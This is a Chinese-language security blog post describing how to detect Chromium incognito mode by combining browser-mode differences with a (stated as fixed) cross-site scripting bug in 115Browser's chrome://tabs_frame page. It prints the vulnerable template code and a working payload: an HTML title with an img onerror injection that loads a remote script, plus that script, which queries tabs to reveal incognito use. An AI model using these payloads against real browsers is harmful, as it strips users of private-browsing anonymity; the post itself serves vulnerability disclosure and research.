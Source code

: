 ```yaml
---
layout: post
title: Chromium 内核浏览器下的隐身模式追踪
---
```

#### 0x01 隐身模式

隐身模式会打开一个新窗口，以便在其中以私密方式浏览互联网，而不让浏览器记录访问的网站，当关闭隐身窗口后也不会留下 Cookie 等其他痕迹。用户可以在隐身窗口和所打开的任何常规浏览窗口之间进行切换，用户只有在使用隐身窗口时才会处于隐身模式，本文将简单的谈一下基于模式差异化的攻击方法。

#### 0x02 浏览器模式的差异化

做过浏览器指纹检测的可能知道使用不同的函数方法或者 DOM 来判断指纹，想要判断目标浏览器当前处于隐身模式还是正常模式，当然也需要找出两种模式下的差异化在哪里，之后使用脚本或其他方法去判断。虽然隐身模式不能用传统那些探测指纹的方法来判断，但我在之前使用隐身模式的过程中发现，当用户输出访问某些 ChromeURL 的时候浏览器不会在当前模式下打开，例如：chrome://settings/manageProfile, chrome://history, chrome://extensions/ 等。这个差异很大的原因可能是隐私模式下对于 extensions, history, profile... 不关联信息时做出的不同处理，利用这个“特性”我想能够做些事情。

#### 0x03 Vuln + Feature

现在我们的理想攻击流程：

- 获取浏览器当前 Title/location.href/Tabs 等信息；
- 使用 JavaScript 打开上面测试存在差异化的 URL ；
- 判断用户目前的浏览器模式是否存在这个微妙的不同；

拿 115Browser 7.2.25 举例，当我们在隐私模式下打开 chrome://settings 时，浏览器启动了一个正常浏览器的进程：

![https://wx4.sinaimg.cn/large/c334041bgy1fbw2btikbsj20k10fzta0.jpg](https://wx4.sinaimg.cn/large/c334041bgy1fbw2btikbsj20k10fzta0.jpg)

我们知道是不能从非 chrome 协议直接 href 跨到浏览器域的：

	location.href='chrome://settings'
	"chrome://settings"
	testchrome.html:1 Not allowed to load local resource: chrome://settings/

所以这里我去寻找一个 chrome 域的跨站漏洞，这个 115 Chrome 域下的漏洞（已修复）位于 chrome://tabs_frame ，页面 DOM 动态渲染网站 TABS Title 时过滤不严谨导致的跨站：

	  var tpl = '<li><span>{title}</span><span class="close"></span></li>',
	    dom = {
	      list: document.getElementsByTagName('ul')[0],
	      index: -1,
	      doc: document
	    },
	    //jQuery,迭代得到当前元素在某个方向上的元素集合
	    dir = function(elem, dir) {
	      var matched = [],
	        cur = elem[dir];
	
	      while (cur && cur.nodeType !== 9) {
	        if (cur.nodeType === 1) {
	          matched.push(cur);
	        }
	        cur = cur[dir];
	      }
	      return matched;
	    };

	...
	
	  //callback：获取当前打开的标签并显示
	  OOF_GET_TAB_LIST = function(str) {
	    var json = JSON.parse(str),
	      tabList = [];
	    for (var i = json.length - 1; i >= 0; i--) {
	      tabList.unshift(tpl.replace(/{(\w+)}/g, function(match, key) {
	        return json[i][key];
	      }));
	    }
	    dom.list.innerHTML = tabList.join("");
	  }

现在我们能够按照上面的思路来进行判断了，这里我为了方便直接使用 115浏览器的 browserInterface.GetTabList 接口来获取 TABS 的差异化：

	browserInterface.GetTabList
	function(callback) {
		native function NativeGetTabList();
		return NativeGetTabList(callback);
	}
	
这个方法接收回调函数获取当前浏览器的 TABS 信息：

![https://wx4.sinaimg.cn/large/c334041bgy1fbw2i4vgowj20ni0703zn.jpg](https://wx4.sinaimg.cn/large/c334041bgy1fbw2i4vgowj20ni0703zn.jpg)

#### 0x04 Payload

http://server.n0tr00t.com/chrome/check_incognito_mode.html

	<!DOCTYPE HTML>
	<html>
	<head>
	    <title><img src=@ style="display: none;" onerror="a=document.createElement('script');a.src='http://server.n0tr00t.com/chrome/checkwindow.js?'+new Date().getTime();a.id='abc';document.body.appendChild(a);">
	    </title>
	</head>
	    <body>
	    TEST Chromeium Incognito Window
	    </body>
	</html>

http://server.n0tr00t.com/chrome/checkwindow.js

	/**
	 * Author: evi1m0.bat[at]gmail.com
	 * Check Chromium Browser Incognito Window
	 **/
	
	initCount = function(){
	    location.href = 'chrome://settings/';
	}
	
	check = function(){
	    if(window.data.indexOf('"href":"chrome://settings/"') < 0){
	        document.body.innerHTML = 'Chrome Incognito Window!!!';
	    } else {
	        document.body.innerHTML = 'Chrome Normal :)'; 
	    }
	}
	
	setTimeout("initCount()", 100);
	callback = function(data){window.data = data};
	browserInterface.GetTabList('callback');
	setTimeout("check()", 1000);

正常模式网页浏览和隐身模式网页的浏览图：
	
![https://wx3.sinaimg.cn/large/c334041bgy1fbw2qorqknj20ya0nwgny.jpg](https://wx3.sinaimg.cn/large/c334041bgy1fbw2qorqknj20ya0nwgny.jpg)

#### 0x05 EOF

通过漏洞和特性的利用我们成功的实现了对浏览器隐身模式的追踪，在测试过程中发现有些浏览器 chrome://...url 是禁用的，但依然能够他们本身浏览器使用的伪协议来实现差异化的跳转（例如 QQ 浏览器的 qqbrowser:// ），这种特性虽然需要一个漏洞来配合利用，不过我认为相比之下难度着实小了许多。